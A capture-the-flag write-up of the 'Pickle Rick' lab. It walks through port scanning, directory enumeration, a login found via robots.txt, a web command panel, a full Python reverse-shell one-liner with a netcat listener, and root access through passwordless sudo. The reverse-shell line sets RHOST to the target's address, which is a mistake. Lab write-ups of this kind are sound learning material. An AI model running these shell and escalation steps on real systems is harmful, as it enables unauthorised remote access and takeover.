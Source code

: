# Pickle Rick CTF

------------------------------------------------------------
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: 10.10.212.184

My first step was to enter the url 10.10.212.184 into my web browser to check on any initial information because there was minimal context given in the prompt.

![pickle rick ctf homepage](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/5fc63bc0-8f3e-4e65-9299-136c1836c6dc)

Looking into the source of the landing page, we find a username.

![url inspect](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/3e8d26d7-ad9b-48d6-badf-f32ff3dbb930)

- Username:R1ckRul3s

After taking a look webpage, I decided to do a portscan using the nmap tool. Utilizing the -sV and -A flags, I was able to gain information about open ports, operating systems, versions, script scans, and tracerouting. 

![sudo nmap -sV -A](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/6f9ef322-61d3-40fc-9b14-8e75737882ae)

Finding that ssh is open is an indicator that we will likely be executing a reverse shell to connect through that open ssh port.

We now need a way to find any valid urls to gain more information about the size of our attack surface. Using the gobuster tool, we can try enough variations to have a good starting point. I decided to use the medium directory list included in Kali Linux and found 8 potential leads.

![gobuster force directory](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/2050371a-989e-4afc-ad9a-57c47041f866)

Exploring the listed links in the assets page:

![asset url](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/a6acefd2-e345-4ad5-b66f-d7d92739602b)

I suspected based on the amount of images and gifs that I would find stenography in these links, but unfortunately that effort came up short.

The login.php link guides us to a typical login page, and the robots.txt link led us to a strange string of text. 

![robotstxt](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/b3cf7742-caac-47cb-93fd-24757be073ef)

I decided to attempt using this string from robots.txt as a password and was successful.

From here we were given a command line labeled "command panel" with an "execute" button underneath.

After exploring the files and directories a bit, I decided to run a grep -R . command where the . serves as a wildcard matching all characters. This command outputs each character available recursively. It isn't ideal in terms of organizing the data, but it's a great way to get an idea of the amount of information we are looking at. 

![grep -R   ](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/a9ef3466-460b-49d6-9019-8a2b596415f4)

Toward the bottom of the output, I saw this:

![mr  meeseek hair first clue](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/27425378-d616-4092-9e1f-b701093939de)

I inserted this into the first clue and we've successfully found our first potion ingredient!

At this point, I tested python3 "print('hello')" to see if we would be able to run python scripts through the command and we were able to print hello succesfully! 

I set up a nc listener on port 9001 in my terminal running:
nc -lvnp 9001 
using revshells.com I generated a python3 reverse shell:
export RHOST="10.10.212.184";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

Once I established a connection, I navigated the files until I checked the home directory. Here I found a directory named "Ricky". Inside that directory, I found a file named "second ingredients", so I knew that we had found our second flag. I read the file using cat *

![1 jerry tear second clue](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/89b2cdc4-b174-432f-9ead-4ad387ba6641)

I spent longer than I should continuing to investigate the machine from this point, and eventually it occurred to me that I hadn't done any privilege escalation up to this point. 

I ran the command sudo -l to get information about the elevated users on the machine and was surprised to see there was no password set for the root user on the machine.

![priv escalation sudo -l found no pw](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/4dbc1b4e-775c-4450-af64-e2d2ef303c33)

From here I entered cd /root and then ls to list files that may not have been visible to me before.  As you can see,  I found a file named 3rd.txt 

![third clue visible as root user](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/0320688d-ea05-4894-ae84-d7442f0e722e)

As you can see, I ran cat 3rd.txt and found our final ingredient which happened to fleeb juice of course!

This concluded the exercise and once we combine the ingredients and bring the potion to Rick, he will no longer be a pickle!

# Takeaways:

- **Initial Exploration:**
    
    - Inspect the web application's source code for clues.
    - Discover the username "R1ckRul3s" in the source.
- **Port Scanning:**
    
    - Use nmap for port scans to identify potential vulnerabilities.
    - Focus on open SSH ports for potential exploitation.
- **Directory Enumeration:**
    
    - Employ gobuster to find valid URLs.
    - Use robots.txt strings as potential passwords.
- **Command Line Exploration:**
    
    - Exploit login success to access a labeled command line.
    - Utilize commands like grep for recursive file searches.
- **Reverse Shell:**
    
    - Confirm the ability to run scripts through the command line.
    - Establish a reverse shell for remote access.
- **Privilege Escalation:**
    
    - Check for elevated users with `sudo -l`.
    - Discover no password requirement for root user.
- **Root Access:**
    
    - Navigate to root directories, find "3rd.txt" for the final ingredient.




